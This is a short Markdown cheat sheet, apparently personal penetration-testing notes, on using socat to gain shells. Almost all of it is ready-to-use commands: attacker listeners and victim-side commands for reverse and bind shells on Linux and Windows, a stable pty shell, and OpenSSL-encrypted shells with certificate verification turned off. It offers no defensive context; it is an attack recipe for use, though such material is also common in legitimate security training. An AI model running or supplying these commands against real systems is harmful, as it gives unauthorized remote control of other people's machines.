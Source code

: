 #cheatsheet 
# Socat
## Using *socat* To Gain Shell
First transfer the socat binary from attacker machine to target machine. Use any of the methods described in [[Transferring Files]].


### Unencrypted Shells
#### Reverse Shell
Attacker machine:
`socat TCP-L:<port>` - sets up a listener on the specified port

Victim machine:
- `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"` - linux target
- `socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes` - windows target

#### Bind Shell
Victim machine:
- `socat TCP-L:<PORT> EXEC:"bash -li"` - linux target
- `socat TCP-L:<PORT> EXEC:powershell.exe,pipes` - windows target

Attacker machine:
`socat TCP:<TARGET-IP>:<TARGET-PORT>`

**For stable shell:**
Listener:
- `socat TCP-L:<port> FILE:`tty`,raw,echo=0` - equivalent of *stty raw -echo; fg* in netcat
Connect back:
- `socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

### Encrypted Shells
**Just replace *TCP* in simple socat with *OPENSSL* for encrypted**
1. Generate certificates (on attacker machine) to use encrypted shells
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
`cat shell.key shell.crt > shell.pem`

#### Reverse Shell
2. Set up a listener
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -` - verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority.

**Note:** The certificate must be used on whichever device is *LISTENING*.

3. Connect back
`socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash`

#### Bind Shell
Victim:
`socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`

Attacker:
`socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 - //attacker`
